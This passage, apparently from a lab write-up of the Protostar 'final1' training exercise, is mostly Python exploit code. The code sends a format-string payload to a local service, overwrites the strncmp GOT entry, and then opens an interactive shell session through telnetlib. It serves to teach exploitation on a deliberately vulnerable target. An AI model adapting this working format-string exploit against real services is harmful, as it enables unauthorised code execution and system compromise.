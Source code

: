 ```shell
# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
strncmp_got = 0x804a1a8
username = pad + 'BBBB' + struct.pack("I", strncmp_got) + '%18$n'
login = 'CCCC' 

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
raw_input('waiting... hit [enter]')
```

![characters-overwritten](public/image/protostar-final/characters-overwritten.png)

### Exploit

```shell
import socket, struct, telnetlib

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
strncmp_got = 0x804a1a8
username = pad + struct.pack("I", strncmp_got) + struct.pack("I", strncmp_got + 2)
username += '%47036x' + '%18$hn' + '%18372x' + '%17$hn'
login = 'CCCC'

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
